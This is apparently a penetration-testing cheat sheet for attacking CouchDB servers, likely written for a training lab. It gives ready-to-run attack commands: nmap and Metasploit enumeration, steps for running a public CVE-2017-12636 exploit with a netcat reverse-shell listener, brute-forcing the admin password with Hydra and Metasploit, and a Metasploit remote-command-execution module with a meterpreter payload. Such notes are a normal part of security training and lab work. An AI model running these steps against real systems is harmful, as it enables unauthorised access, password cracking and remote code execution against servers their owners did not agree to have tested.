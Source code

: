 # 5984, 6984 (CouchDB)

## Enumeration

### Automatic

```bash
nmap -sV --script couchdb-databases,couchdb-stats -p <PORT> <IP>
msf> use auxiliary/scanner/couchdb/couchdb_enum
```

## Exploitation

### Unprotected

#### CVE-2017-12636

Since we should have administrative access here we should be able to find an exploit to execute.

* Found: [https://github.com/moayadalmalat/CVE-2017-12636](https://github.com/moayadalmalat/CVE-2017-12636)
* Download code and update the **target** and **command** variables in the script
* Start a netcat listener: `nc -lvnp 4444`
* Run the exploit: `python3 exploit.py`

### Protected

Since we do NOT have access we will need to get access.

#### Brute Force

Hydra

```bash
hydra -l admin -P /opt/100-common-passwords.txt -s 5984 -f <IP> http-get /_utils
# And we get the password
```

Metasploit

```bash
use auxiliary/scanner/couchdb/couchdb_login
set RHOSTS demo2.ine.local
set USERNAME admin
set PASS_FILE /root/Desktop/wordlists/100-common-passwords.txt
set STOP_ON_SUCCESS True
set VERBOSE true
exploit
```

#### RCE

Metasploit

```bash
search couchdb
use exploit/linux/http/apache_couchdb_cmd_exec
set PAYLOAD linux/x64/meterpreter/bind_tcp
set RHOSTS <IP>
set LHOST <IP>
set httpusername admin
set httppassword madalina
exploit
```
